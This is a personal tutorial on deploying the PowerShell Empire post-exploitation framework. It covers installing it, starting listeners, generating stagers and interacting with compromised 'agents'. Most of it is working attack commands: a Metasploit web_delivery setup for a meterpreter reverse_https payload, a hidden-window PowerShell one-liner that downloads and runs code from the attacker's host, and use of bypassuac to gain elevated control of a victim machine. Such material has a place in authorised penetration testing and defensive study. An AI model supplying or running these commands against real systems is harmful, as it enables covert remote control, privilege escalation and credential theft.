 #Empire
[Empire](https://github.com/adaptivethreat/Empire) is a "pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture."

Some links that helped me create my write-up below:

* [https://attackerkb.com/Powershell/Powershell_Empire](https://attackerkb.com/Powershell/Powershell_Empire)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)
* [CheatSheets for various modules](https://github.com/HarmJ0y/CheatSheets)

##Install

The [getting started guide](http://www.powershellempire.com/?page_id=110) walks you through a basic install - here's the quick steps:

    git clone https://github.com/adaptivethreat/Empire.git /opt/empire
    cd /opt/empire/setup
    ./install.sh
    /opt/empire/empire.sh

I found afterwards that my fresh Ubuntu droplet from Digital Ocean coughed up this error when I ran `./empire`:

>Traceback (most recent call last):

>File "./empire", line 6, in <module>

>from OpenSSL import SSL

>ImportError: No module named OpenSSL

Once I did a `sudo apt-get install python-openssl` then everything ran like a champ.

##Launch a listener
1. Type `listeners` and hit **Enter**
2. Setup an HTTP listener (for example) with `set Host http://your.local.ip.address` (tab completion works!).  *Note:* when running this on an AWS instance I found I needed to use FQDN instead of the IP address - i.e. use ec2-1-2-3-4.us-west-2.compute.amazonaws.com instead of 1.2.3.4.
3. Type `info` and hit Enter to confirm the listener is good to go.
4. Type `run` to run it (if you need to kill it, use `list` to see the list of listeners, then do `kill 1` or whatever the number is.

P.S. - [BHIS](http://bhis.co) has a nice tutorial for [scripting the startup of Empire listeners](http://www.blackhillsinfosec.com/?p=5428).

##Configure a stager
1. Type `usestager` and then hit **Tab** to see your options. I like the simple `usestager launcher` for a simple PowerShell one-liner
2. Assign the stager to a configured listener by typing `use Listener NAME-OF_LISTENER`
3. Type `generate` to actually generate it.

##Manage connected machines
Once you get a "bite" type `agents` to see connected machines.  Then do `interact NAME-OF-MACHINE` to begin interacting with it.

##Establish credential sets
I followed [this page](http://www.powershellempire.com/?page_id=114) to figure out how to add/edit credential sets into Empire so they're easily "pluggable" into Empire modules without having to type them every time.

##Create a secondary meterpreter listener
Follow [this article](http://www.powershellempire.com/?page_id=137) for more info, but basically in the `listeners` do a `set Host http://whatever.the.host.is` and `set Type meter`.  Then type `execute` and `list` to see your new listener.

Now on your Kali/Metasploit box, run the following commands to "catch" your incoming shell:

	use exploit/multi/script/web_delivery
	unset all
	set srvhost 0.0.0.0
	set srvport 80
	set lhost MY.PUBLIC.IP.ADDRESS
	set lport 443
	set target 2
	set payload windows/x64/meterpreter/reverse_https
	exploit -j

This will give you a PowerShell one-liner with something like:

`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://your-public-ip-address/V23fasdfg4rP5XBryb');
`
Launch the one-liner and you should be in happy shell land!

##Elevating privs
Once you've figured out a way to make your limited account a local admin, here's how you can make your victim machine connect to you *again* but this time with more privs!

1. While interacting with your agent, issue the command `bypassuac NAME-OF-LISTENER`.  So for example, my listener with my initial shell was called `test` so I issued `bypassuac test`
2. You should see a "new" agent connect to your listener, but this one has a *`*`* by it, indicating it is running w/elevated privs!!!

##Other resources:
* [Intercepting passwords with Empire and winning!](https://sensepost.com/blog/2016/intercepting-passwords-with-empire-and-winning/)
* 